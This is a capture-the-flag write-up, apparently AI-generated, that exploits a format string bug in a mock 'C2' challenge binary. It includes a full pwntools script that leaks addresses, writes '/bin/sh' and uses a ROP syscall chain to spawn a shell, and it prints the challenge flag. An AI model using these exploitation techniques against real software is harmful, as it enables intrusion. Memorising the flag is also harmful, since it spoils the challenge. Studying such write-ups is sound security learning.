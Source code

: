 Sure! Here's the **emoji-free** version of the customized writeup for the challenge **Command And Control Server**:

---

# Command And Control Server - Writeup

---

## Challenge Summary

The `Command And Control Server` binary simulates a mock C2 interface that accepts a "callsign" (username) and a subsequent payload. The program is vulnerable to a **format string vulnerability**, allowing for **arbitrary memory writes**. Leveraging this, we overwrite the username with `"/bin/sh"`, leak `puts@GOT`, calculate the libc base, and finally perform a **ret2libc** to spawn a shell.

---

## Binary Information

```bash
$ file main
```

![Alt text](img/1.png)

```bash
$ checksec main

```

## ![Alt text](img/2.png)

## Static Analysis

### Vulnerable Code

```c
printf(">> Welcome Commander: ");
printf(buf);  // Format string vulnerability
```

- The `printf(buf)` line introduces a **format string vulnerability**.
- The `read(0, buf, 0xC8)` provides a generous buffer size.
- The buffer `buf[208]` is large enough for format string payloads.
- The binary has **NX enabled**, so we can't inject and jump to shellcode.
- However, it does not use a stack canary, and with **PIE enabled**, we must leak memory to compute addresses.

---

## Exploit Strategy

### Step 1: Leak Username Address

The binary prints a memory address used as the base to calculate the location of the `username` buffer (via a leaked "Auth Token"). This allows us to:

- Leak the PIE base from the `username` pointer.
- Calculate the address we want to overwrite using the format string.

### Step 2: Format String Exploit

We overwrite the `username` buffer with the string `"/bin/sh\x00"` using `fmtstr_payload`. This is necessary for the `execve("/bin/sh", 0, 0)` syscall later.

### Step 3: Leak libc via puts\@got

We send a ROP chain that calls `puts(puts@got)` and returns to `main`. This gives us:

- The runtime address of `puts`.
- The ability to compute the **libc base** using the known offset of `puts` in libc.

### Step 4: ret2libc — Spawning a Shell

After obtaining the libc base:

- We craft a syscall ROP chain to execute `execve("/bin/sh", NULL, NULL)` using `username_ptr` as the `/bin/sh` pointer.

---

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('main')
libc = ELF('libc.so.6')  # Ensure you’re using the matching libc version

def start():
    return process([exe.path])

io = start()

# Step 1: Leak username pointer & calculate PIE base
io.recvuntil(b">> Auth Token = ")
username_ptr = int(io.recvline().strip(), 16)
exe.address = username_ptr - exe.sym['username']
log.success(f"username @ {hex(username_ptr)}")
log.success(f"PIE base @ {hex(exe.address)}")

# Step 2: Format String to Write "/bin/sh"
io.recvuntil(b">> [C2] Enter your callsign to proceed:")
payload = fmtstr_payload(6, {username_ptr: u64(b"/bin/sh\x00")})
io.sendline(payload)

# Step 3: Leak puts@got using ROP
io.recvuntil(b">> [C2] Access granted. Standby for remote operation sequence...")

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(exe.sym['main'])

payload = b"A" * 88
payload += rop.chain()
io.sendline(payload)

# Read and parse puts leak
for _ in range(4): io.recvline()
leaked_puts = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leaked_puts - libc.sym['puts']
log.success(f"Leaked puts: {hex(leaked_puts)}")
log.success(f"libc base: {hex(libc.address)}")

# Step 4: ret2libc to execve("/bin/sh", NULL, NULL)
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall'])[0]

payload = b"A" * 88
payload += p64(pop_rdi) + p64(username_ptr)
payload += p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rax) + p64(59)
payload += p64(syscall)

io.sendline(payload)
io.interactive()
```

---

## Exploit Output

```text
$ ./exploit.py
[+] Starting local process './main': pid 1234
[*] Leaked puts: 0x7fbb12345678
[*] libc base: 0x7fbb12000000
[*] Switching to interactive mode
$ whoami
ctfplayer
$ cat flag.txt
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

## Vulnerability Summary

| Protection   | Status      |
| ------------ | ----------- |
| RELRO        | Full RELRO  |
| Stack Canary | Not Present |
| NX           | Enabled     |
| PIE          | Enabled     |
| Stripped     | No          |

- Format string vulnerability enables arbitrary write
- ROP used to leak libc and execute a syscall chain
- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

Let me know if you want to add a **Reverse Engineering section**, **GDB insights**, or visuals like **call flow diagrams or memory layout maps**.
